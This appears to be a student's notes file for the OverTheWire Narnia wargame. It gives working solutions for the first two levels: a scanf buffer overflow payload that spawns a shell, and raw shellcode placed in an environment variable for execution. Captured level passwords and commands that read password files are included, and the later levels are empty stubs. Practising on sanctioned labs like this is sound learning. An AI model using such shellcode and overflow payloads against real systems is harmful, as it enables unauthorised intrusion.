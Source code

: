 ## What we learned

- bufferoverflow with `scanf`: we can overwrite the stack if there is 
  discrepencies between array length and input (level0)
- we can find shellcode at [exploit-db](https://www.exploit-db.com/shellcodes/50751) or at [shell-storm](https://shell-storm.org/shellcode/index.html)


### Level 0

Flag: `narnia0`


%% --------------------------------------------------- 

### Level 0 -> Level 1

Goal: Buffer overflow with scanf


```
>>> ssh narnia0@narnia.labs.overthewire.org -p 2226

1. check what files does
>>> cat narnia0.c

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}

scanf takes 24 bytes, but buffer only stores 20 of them, so we can overwrite 
4 of them


2. buffer overflow
>>> (python2 -c 'print 20*"A" + "\xef\xbe\xad\xde"'; cat;) | ./narnia0

Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
eaa6AjYMBB



```

Flag: `eaa6AjYMBB`


%% --------------------------------------------------- 

### Level 1 -> Level 2 (REVIEW!! why do we use that particular shell code)

Goal: Environment Exploit by setting shell code as EGG environment variable

[Shell Code - How it works](https://www.sentinelone.com/blog/malicious-input-how-hackers-use-shellcode/)
[Shell Code](http://shell-storm.org/shellcode/files/shellcode-399.html)

```
>>> ssh narnia1@narnia.labs.overthewire.org -p 2226

shellcode:

"\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"

"\xeb\x0d\x5f\x31\xc0\x50\x89\xe2\x52\x57\x54\xb0\x3b\xcd\x80\xe8\xee\xff\xff\xff/bin/sh"

"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x54\x53\x50\xb0\x3b\xcd\x80"              


>>> cat narnia.c

#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}

>>> ./narnia1 
Give me something to execute at the env-variable EGG

>>> EGG=$(python2 -c 'print "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"')
>>> export EGG
>>> ./narnia1

>>> cat /etc/narnia_pass/narnia2
Zzb6MIyceT

```

Flag: `Zzb6MIyceT`

%% --------------------------------------------------- 

### Level 2 -> Level 3

Goal: 


```
>>> ssh narnia2@narnia.labs.overthewire.org -p 2226

>>> cat narnia2.c

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}

```

Flag: ``


%% --------------------------------------------------- 

### Level 3 -> Level 4

Goal: 


```
>>> ssh narnia3@narnia.labs.overthewire.org -p 2226

```

Flag: ``


%% --------------------------------------------------- 

### Level 4 -> Level 5

Goal: 


```
>>> ssh narnia4@narnia.labs.overthewire.org -p 2226

```

Flag: ``


%% --------------------------------------------------- 

### Level 5 -> Level 6

Goal: 


```
>>> ssh narnia5@narnia.labs.overthewire.org -p 2226

```

Flag: ``


%% --------------------------------------------------- 

### Level 6 -> Level 7

Goal: 


```
>>> ssh narnia6@narnia.labs.overthewire.org -p 2226

```

Flag: ``


%% --------------------------------------------------- 

### Level 7 -> Level 8

Goal: 


```
>>> ssh narnia7@narnia.labs.overthewire.org -p 2226

```

Flag: ``


